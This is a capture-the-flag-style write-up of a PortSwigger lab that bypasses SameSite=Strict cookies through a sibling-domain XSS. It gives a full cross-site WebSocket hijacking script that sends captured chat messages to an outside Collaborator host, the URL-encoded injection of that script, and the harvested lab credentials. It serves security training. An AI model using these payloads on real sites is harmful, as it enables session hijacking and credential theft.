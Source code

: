 ## Lab Description: SameSite Strict bypass via sibling domain

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e67ce03c-e03b-42a3-ac21-0882e2e65b81)

## Solution: 

Now we go to the lab website:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/aa545927-d075-41ef-b2c3-ebe0ee7bf86d)

Ok, note that there is a “Live Chat” on the right-hand side on the top. We click that.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a66b9d17-7bcf-4fd9-9523-e2015aa8f632)

This is because our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8eb3a9c4-3c46-4348-acae-397b959d430d)

- The SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent.
  And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.



  In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

```
<script>
    var ws = new WebSocket('wss://0aeb00f70330c49787095bd20001002f.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://q6xfzxmd09sge3zxbmgy9uwqnht8hy5n.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Because this exploit visits the /chat webpage by code, thus no sessions would be sent, and you can not see the chat history at all! Since now the session is already forgotten by our browser, we need to re-enter some words in the /chat webpage and sent that again to create some chat history.

This web page contains a cross-site scripting (XSS) vulnerability. You can execute arbitrary javascript code in the Username field.

Store and view the exploit .

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b75a4e18-9656-4f2e-936b-be1b95b503d8)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f92a1076-24a3-4d30-8a3d-35e7b376a3ff)

URL encode the entire script.

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%62%30%30%66%37%30%33%33%30%63%34%39%37%38%37%30%39%35%62%64%32%30%30%30%31%30%30%32%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%71%36%78%66%7a%78%6d%64%30%39%73%67%65%33%7a%78%62%6d%67%79%39%75%77%71%6e%68%74%38%68%79%35%6e%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.

```
<script>
    document.location = "https://cms-0aeb00f70330c49787095bd20001002f.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%65%62%30%30%66%37%30%33%33%30%63%34%39%37%38%37%30%39%35%62%64%32%30%30%30%31%30%30%32%66%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%71%36%78%66%7a%78%6d%64%30%39%73%67%65%33%7a%78%62%6d%67%79%39%75%77%71%6e%68%74%38%68%79%35%6e%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/384b0169-b479-4fa3-a64e-96e0c00e7fa0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/da477b8c-9f56-43e9-90e2-c1bc4e3417cd)

Store and Deliver the exploit .

In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9a4ab69a-755f-4bdc-9304-d74854c4f0e9)

Study the HTTP interactions and notice that these contain the victim's chat history.Find a message containing the victim's username and password.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cfd74a7b-886a-423d-8a96-26a4e747cae6)

username: `carlos`, password: `ru5zqhkhulw1lx6tnh3k`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/30cc66b2-efbf-4559-ab62-cc1a112bcc4c)


